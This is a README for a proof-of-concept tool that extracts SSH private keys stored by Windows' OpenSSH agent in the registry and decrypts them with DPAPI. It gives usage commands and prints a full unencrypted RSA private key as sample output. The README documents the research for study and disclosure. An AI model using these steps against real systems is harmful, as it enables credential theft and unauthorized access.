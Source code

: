 # Intro
These scripts are a PoC for how to extract unencrypted private SSH keys from Windows when the new OpenSSH `ssh-agent.exe` is used.

When adding private keys to `ssh-agent`, Windows protects the private keys with DPAPI and stores them as registry entries under `HKCU:\Software\OpenSSH\Agent\Keys`

With elevated privileges, it is possible to pull out the binary blobs from the registry and unprotect them using DPAPI. These blobs can then be restructured into the original, unencrypted private RSA keys.

All credit for the Python code should go to the original implementatoin by soleblaze and his script `parse-mem.py` [here](https://github.com/NetSPI/sshkey-grab/blob/master/parse_mem.py)

# Usage
From an elevated Powershell prompt, use `extract_ssh_keys.ps1` to generate a JSON file which contains the Base64 data of the unprotected SSH keys. This script works by enumerating all SSH keys stored in the registry and calling DPAPI with the "Current User" context to unprotect the binary data.

```
C:\tools> .\extract_ssh_keys.ps1
Pulling key:  .\ropnopkey2
Pulling key:  .\ropnopkey1
extracted_keyblobs.json written. Use Python script to reconstruct private keys: python extractPrivateKeys.py extracted_keyblobs.json
```

The Python script requires Python 3 and the `pyasn1` package. Run the Python script on the saved JSON file to re-construct the original, uncnecrypted RSA private keys:

```
C:\tools> python .\extractPrivateKeys.py .\extracted_keyblobs.json
[+] Key Comment: .\ropnopkey2
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAtekm5ikm0lh9fIiqslAUVUAhbI48/+khBFstx7jbz0XfcvAo
XS3wxeer7UeaIXRJAXARy4ARi6fk9W6PfdP3zKFd7D1MV1WG0FAogxWUXOxiYxgZ
yihsYNQ2NQmnVrW2C67+RZ2tTwNEEUGRVPi0QRjLlwXWPm6+0bFF4d0A7ivwTa0+
EYVow48E74v5BMOxW+h87ZassRvAO22vZXV7Tr/VnwM3GoLPXTSAUxVsO0nhDs07
JCXsu8oO7zH3Ql/I330QxAYo3qG0c/Ega3m474vVdIQOYdiaYxmN1u29wR9MAUNx
/fY9yOTc0+prwWVt5GqZ3y89d9PI1VJfqNa6LQIDAQABAoIBAQCLjycHtxSQldEY
BKWojWU8DipWZT2JO+rXs7gInNsORtXqETN2YTNyMY2mSaOG/PaxgrA0RrmvQgyW
+s5dQ4y90iMDhfeWnQgDsyuRfbHIJJZK3geTH7YeB1DbGd/m1xumFQgAkrqOfrvu
3TXJUdDAjGxNHe5DEaWVrIIniO0YyxMV10M2s2D6GtNHBjzop9YDegvkeQxNbO0K
tKcDhJ/QPrkT+J8yCnRpStYC+kNlbOlBKkmdTJ5nhtmlZ8mWqpIgocvKrOZavsAh
7SKpWt/Sjjoc+8wwt4dNiy8WnbHGFPb6W9lxdjDxpmoTn2bQOaS0oo61KJU7m60O
SdgQwtUBAoGBAOXhnKWe2wKN/sx+/PYEvh2bi5xtugcOufCTqFlTYpxsgG0717s2
1Ljwh7yjtTv6bS+6tXFrAy8QhKwLiuXnn8OAaPb9hMbpqGDhk04GcDWP/1oqS/2Y
gMfeoBF6P3+q969kFbZwMCj/zsOEXnwTJGN6bxHBKassslts3Lf8jVjtAoGBAMqU
QY0EebxJAQm3BgsQ0fsNli0CFGAm7iSlYmsSkcbcwZfL9hzxccKZDpZpXr2WV9wf
dqfUoQyowSbZEz5kcuEeRe4Ofzf0ADs0fdMYRg0fvZ9JUCsTq+ecj3U25vNeXW9F
kD7mYnEbY9lMkMvna4uthraxBQEZyyWjHsu2mP5BAoGBALukYFBUjeLU8zILSgKr
NmBGkjw62Mlf/OjiLl3Tkb+rVV1UprCbfiIDvFh/rLTromp+VhLhTfUB37nrphIp
8iAL1iIeKF6RZa7HEo1y9e7SvpXjxqmW7S+4iiIaDnDwpkLVSF/lzXn57NVtXA6d
NWu6CaWNbazazC+Secv464u1AoGAdK2tj75bK3JU8baD+Y2nk9UAgU3oVHU3xs2n
AQrCAesWagrk50i9gBrOBx4LnmDgm/1XR1U1qWftUCXJaq9KZ5UbLAEXjy+vjmou
ao5ZkqeMfRkp3pXG9nD7Q8TqgpQAdt13NnNVkdX3zanG4FqbW+kHZWRSAI9NrZDl
ZOn39sECgYBj6IPFbBxllysESiV6Tcvb98ffKjWBvL3MM4ENfzlH0fCNGNkVPDvn
ufMwjM3PqhUFXVBQHm0eMZDLLcLpLUxxIpiOdmLDk6XhAY+1Vc90OmDrCoADUxdg
Eq/hFJMNz4ZMio4KVd+BUVM2rt4zjq0tcxtOrMABdddCRBkuwhluSQ==
-----END RSA PRIVATE KEY-----
```

Blog post here explaining my process: https://blog.ropnop.com/extracting-ssh-private-keys-from-windows-10-ssh-agent

## Credits
https://gist.github.com/atifaziz/10cb04301383972a634d0199e451b096
https://blog.netspi.com/stealing-unencrypted-ssh-agent-keys-from-memory/
https://github.com/NetSPI/sshkey-grab

